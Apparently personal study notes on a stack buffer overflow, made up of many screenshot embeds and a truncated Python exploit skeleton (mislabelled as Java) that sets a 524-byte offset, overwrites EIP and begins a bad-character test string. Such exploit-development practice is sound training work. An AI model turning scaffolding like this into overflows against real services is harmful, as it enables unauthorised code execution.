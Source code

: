 ![[Pasted image 20231127142836.png]]
![[Pasted image 20231129125855.png]]![[Pasted image 20231129125940.png]]
![[Pasted image 20231129130108.png]]
![[Pasted image 20231129130311.png]]![[Pasted image 20231130094313.png]]
![[Pasted image 20231130104055.png]]
![[Pasted image 20231130105844.png]]
![[Pasted image 20231130105429.png]]![[Pasted image 20231130133629.png]]
![[Pasted image 20231130133912.png]]
![[Pasted image 20231130134037.png]]
![[Pasted image 20231130134245.png]]
![[Pasted image 20231130134824.png]]
![[Pasted image 20231130140907.png]]
![[Pasted image 20231130141134.png]]
![[Pasted image 20231130141532.png]]
![[Pasted image 20231130141547.png]]
![[Pasted image 20231130141934.png]]
![[Pasted image 20231130142148.png]]
![[Pasted image 20231130142204.png]]
![[Pasted image 20231130142420.png]]
![[Pasted image 20231130142646.png]]
![[Pasted image 20231130142656.png]]
![[Pasted image 20231130143030.png]]
![[Pasted image 20231130162711.png]]
![[Pasted image 20231130163148.png]]
![[Pasted image 20231130164805.png]]
![[Pasted image 20231130164933.png]]
![[Pasted image 20231130164955.png]]
![[Pasted image 20231130165022.png]]
![[Pasted image 20231130165112.png]]
![[Pasted image 20231130165254.png]]

```java
#!/usr/bin/python3

import socket
from struct import pack

offset = 524
before_eip = b"A" * offset
eip = b"B"*4
after_eip = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
```